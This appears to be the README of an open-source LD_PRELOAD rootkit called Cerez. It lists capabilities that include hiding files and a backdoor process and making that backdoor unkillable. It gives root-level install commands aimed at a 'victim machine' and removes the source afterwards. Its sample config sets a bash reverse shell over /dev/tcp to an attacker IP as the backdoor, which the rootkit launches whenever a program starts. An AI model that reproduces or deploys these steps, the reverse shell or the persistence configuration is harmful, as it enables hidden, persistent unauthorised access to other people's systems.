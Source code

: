 <h1 align="center">
  <img src="assets/showcase.png"/>  
  <br>
  <br>
  Cerez 😈 A simple userland LD_PRELOAD rootkit
</h1>

Cerez is a configurable userland `LD_PRELOAD` rootkit, by installing it 
into `/etc/ld.so.preload`, you can preload it before every binary.
It can protect/hide your backdoor as well other files you want 
hidden. It does so by overwriting syscalls and functions like `open`, `unlinkat` etc.

## Features
- ✔ Hides files in the file system 
- ✔ Hides your backdoor in the process list 
- ❌ Hides connections in the network list
- ✔ Makes your backdoor unkillable 
- ✔ Makes files unreadable 
- ✔ Makes files unwriteable 

## Install 
### You will need to install `build-essential` to compile!
You can install it with `apt` on debian systems:
```bash
apt update && apt install build-essential
```
To install the rootkit on a victim machine run the following
as **ROOT**:
```bash
git clone https://github.com/ngn13/cerez.git && cd cerez
make && make install
cd .. && rm -rf cerez
```
Don't forget to edit `cerez.cfg` before install!

## Config `(/etc/cerez.cfg)`
Configuration is (really) simple, in the `backdoor` section,
leave your backdoor/malicious command, this will be run by the rootkit everytime a program starts (if its not already running).
Your backdoor will be hidden in the process list. It will 
be also unkillable.

In the `hidden` section, specify full paths for all the files that you want hidden.
```
backdoor = "bash -c 'bash -i >& /dev/tcp/<ip>/1234 0>&1'"
hidden = (
  { path = "/etc/cerez.cfg" },
  { path = "/etc/ld.so.preload" },
  { path = "/path/to/your/super/secret/file" }
);
```

## Resources
To learn more about `LD_PRELOAD` rootkits, I highly recommend you read [this
article](https://compilepeace.medium.com/memory-malware-part-0x2-writing-userland-rootkits-via-ld-preload-30121c8343d5).
I also left some comments in the [loader.c](rootkit/loader.c) so you can go ahead and read it.
You can also create an issue/PR if you are interested.
